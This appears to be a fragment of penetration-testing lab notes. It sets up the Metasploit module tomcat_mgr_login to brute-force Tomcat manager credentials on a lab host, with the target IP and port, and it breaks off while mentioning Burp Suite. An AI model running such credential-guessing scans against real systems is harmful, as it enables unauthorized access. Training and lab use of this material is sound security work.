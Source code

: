 use metasploit auxiliary/scanner/http/tomcat_mgr_login

```shell-session
set VHOST web01.inlanefreight.local
set RPORT 8180
set stop_on_success true
set rhosts 10.129.188.27
```

then run 

run it through burp suite in a proxy to see if there is 